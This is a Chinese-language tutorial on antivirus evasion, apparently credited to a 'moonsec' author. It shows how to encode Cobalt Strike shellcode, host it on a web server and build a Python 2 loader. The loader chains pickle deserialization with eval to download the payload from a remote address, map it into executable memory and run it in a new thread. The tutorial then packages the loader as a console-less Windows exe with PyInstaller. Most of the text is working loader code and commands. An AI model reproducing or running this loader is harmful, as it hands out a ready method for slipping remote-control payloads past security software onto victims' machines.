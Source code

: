 ```yaml
---
title: 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)
tags:
  - 免杀
---
```

# 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)

<strong>PS：来自moonsec师傅的分享</strong>
## 0x01 环境配置
Win10 x64

Win7  x64

Python 2.7.18

Pyinstaller3.4

CS4.0

<strong> pip install pyinstaller==3.4 -i https://pypi.doubanio.com/simple/ </strong>

|---------------------------------------------------------------------------------------|

## 0x02 免杀原理

利用反序列化加载器绕过杀软基于特征的免杀。利用编码绕过shellcode的查杀。可以将加密好的shellcode放在远程服务器上，再加载不同的shellcode，进行扩展。

## 0x03 制作加密shellcode

利用cs获取shellcode

![](media/e0aa28720b9c4622e4d0a6ca71e13fb4.png)

此处选择python语言，以及使用x64payload，否则执行python文件时会中断。

![](media/a398c4e7bf777025737ed5a996feec68.png)

此处生成payload为：

![](media/8310ab75b4e0a155e8b54989c05e9269.png)

使用任意方式进行加密，此处采用base64进行。

用生成payload替换buf

<strong> import base64,urllib2 <br> buf = "shellcode" <br> html = base64.b64encode(buf) print html </strong>


|---------------------------------------------------------------------------------------|


将使用base64加密后的payload保存为txt文件，然后放在可访问web目录下。

![](media/38fa0ebdce2832091cde822472d890fa.png)

使用如下脚本测试是否能够获取到解密后的payload

<strong>import base64,urllib2 <br> html = urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64') print html </strong>

此处看到ip表示解密未出现问题。

![](media/c20169b6d62cf1444bbeb9d0da605c74.png)

## 0x04 使用加载器加载payload

使用如下加载器尝试加载执行：<br>
import ctypes,cPickle,base64,urllib2<br>
class ptr(object):<br>

    def __reduce__(self):
        return (eval, ("urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64')",))
class buf(object):<br>

    def __init__(self,shellcode):
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode),0x1000,0x40)",))

class windll(object):

    def __init__(self,rwxpage,shellcode):
        self.rwxpage = rwxpage
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.RtlMoveMemory(rwxpage,ctypes.create_string_buffer(shellcode),len(shellcode))",))

class ht(object):

    def __init__(self,rwxpage):
        self.rwxpage = rwxpage

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.CreateThread(0,0,rwxpage,0,0,0)",))

class run(object):
    def __init__(self,handle):
        self.handle = handle

    def __reduce__(self):
        return (eval,("ctypes.windll.kernel32.WaitForSingleObject(handle,-1)",))

if __name__ == '__main__':

    raw_shellcode = ptr()
    ser_shellcode = cPickle.dumps(raw_shellcode)
    emb32_shellcode = base64.b32encode(ser_shellcode)
    shellcode = cPickle.loads(base64.b32decode(emb32_shellcode))

    raw_vir = buf(shellcode)
    ser_vir = cPickle.dumps(raw_vir)
    emb32_vir = base64.b32encode(ser_vir)
    rwxpage = cPickle.loads(base64.b32decode(emb32_vir))

    raw_rtl = windll(rwxpage,shellcode)
    ser_rtl = cPickle.dumps(raw_rtl)
    emb32_rtl = base64.b32encode(ser_rtl)

    raw_handle = ht(rwxpage)
    ser_handle = cPickle.dumps(raw_handle)
    emb32_handle = base64.b32encode(ser_handle)
    handle = cPickle.loads(base64.b32decode(emb32_handle))

    raw_run = run(handle)
    ser_run = cPickle.dumps(raw_run)
    emb32_run = base64.b32encode(ser_run)

    output = '''import ctypes,cPickle,base64,urllib2

e_shellcode = "{}"
shellcode = cPickle.loads(base64.b32decode(e_shellcode))

e_rwxpage="{}"
rwxpage = cPickle.loads(base64.b32decode(e_rwxpage))

e_code = "{}"
cPickle.loads(base64.b32decode(e_code))

e_handle = "{}"
handle = cPickle.loads(base64.b32decode(e_handle))

e_run = "{}"
cPickle.loads(base64.b32decode(e_run))'''.format(emb32_shellcode,emb32_vir,emb32_rtl,emb32_handle,emb32_run)

    with open('shellcode.py','w') as f:
        f.write(output)
        f.close() 

|---------------------------------------------------------------------------------------|

执行py文件后，会在该文件目录下生成shellcode.py，使用python执行后，查看CS是否上线：

![](media/5aa8c2c6a950c1a4275d484eff957f3e.png)

如成功上线，使用pyinstaller生成exe可执行文件。

## 0x05 pyinstaller生成exe文件

pyinstaller生成指定图标无命令行的exe文件

<strong> pyinstaller.exe –noconsole –onefile shellcode.py -i 128.ico -n shellcode </strong>



![](media/bf36cb2d74e7d10cf0cd41661f2deadc.png)

生成默认目录为pyinstaller.exe所在目录中的dist目录下

![](media/67faca8a79d2c4a479fb3d551ca7fd57.png)
